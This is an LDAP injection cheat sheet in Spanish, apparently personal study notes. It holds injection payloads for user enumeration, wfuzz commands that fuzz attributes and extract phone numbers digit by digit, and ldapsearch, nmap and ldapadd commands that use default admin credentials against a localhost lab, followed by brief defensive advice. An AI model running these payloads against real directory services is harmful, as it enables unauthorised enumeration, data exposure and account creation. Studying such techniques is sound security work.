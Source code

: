 ```yaml
---

### 🗃️ **LDAP Injection Cheat Sheet**

---
```

---
#### **¿Qué es una inyección LDAP?**

Las inyecciones LDAP (Lightweight Directory Access Protocol) son un tipo de ataque en el que un atacante **inyecta comandos LDAP maliciosos** en campos de entrada web que interactúan con un servidor LDAP.  
Si la aplicación no valida adecuadamente la entrada, el atacante puede manipular las consultas LDAP para:  

- 🕵️ **Acceder a información confidencial** de usuarios o recursos.  
- ✏️ **Modificar datos**: agregar, eliminar o modificar usuarios y recursos.  
- 🚩 **Realizar operaciones maliciosas** en la red, como phishing o instalación de malware.  

---

### **Ejemplos de Ataques LDAP Injection**

#### **Enumeración de usuarios:**
```http
user_id=o*&password=\*&login=1&submit=Submit
```
- **Indicador de éxito:** Código de respuesta **301**, lo que indica que el usuario existe.  
- **Nota:** Utiliza el comodín `*` para enumerar.  

#### **Inyección LDAP Básica:**
```http
user_id=omar)(mail=\*))%00&password=\*&login=1&submit=Submit
```
- **Objetivo:** Obtener información del atributo `mail` para el usuario `omar`.  
- **Indicador de éxito:** Respuesta HTTP exitosa o cambio en la respuesta.  

---

### **Fuzzing de Atributos con Wfuzz**

#### **Fuzzing de Atributos LDAP:**
```bash
wfuzz -c --hh=550 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=\*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
```
- **Uso de diccionario:** Prueba diferentes atributos para identificar posibles campos válidos.

---

#### **Enumeración de Teléfonos:**
- **Primer número:**
  ```bash
  wfuzz -c --hh=550 -z range,0-9 -d 'user_id=fran)(telephoneNumber=FUZZ*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
  ```
- **Segundo número:**
  ```bash
  wfuzz -c --hh=550 -z range,0-9 -d 'user_id=fran)(telephoneNumber=5FUZZ*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
  ```
- **Nota:** Repite el proceso para cada posición del número.  

---

### **Comandos Útiles para Interactuar con LDAP**

#### **Búsqueda en el Servidor LDAP:**
```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'
```
- **Descripción:** Realiza una consulta LDAP para obtener información.  
- **Tip:** Puedes usar scripts de nmap para identificar argumentos válidos:
  ```bash
  sudo nmap --script ldap* -p 389 localhost
  ```

---

#### **Añadir Usuarios a LDAP:**
```bash
ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldiff
```
- **Descripción:** Añade un nuevo usuario usando un archivo LDIF.  
- **Archivo `newuser.ldiff`**:
  ```
  dn: cn=newuser,dc=example,dc=org
  objectClass: inetOrgPerson
  cn: newuser
  sn: user
  uid: newuser
  userPassword: password123
  ```
---

### **Aclaraciones Importantes:**
1. **Validación de entrada:** Evita el uso directo de la entrada del usuario en consultas LDAP.  
2. **Uso de caracteres especiales:** Asegúrate de escapar correctamente los caracteres peligrosos.  
3. **Monitorización continua:** Implementa alertas ante patrones sospechosos en el tráfico LDAP.  

---

**Consejo:** Guarda esta cheat sheet en Obsidian para tener siempre a mano los comandos y técnicas. 🚀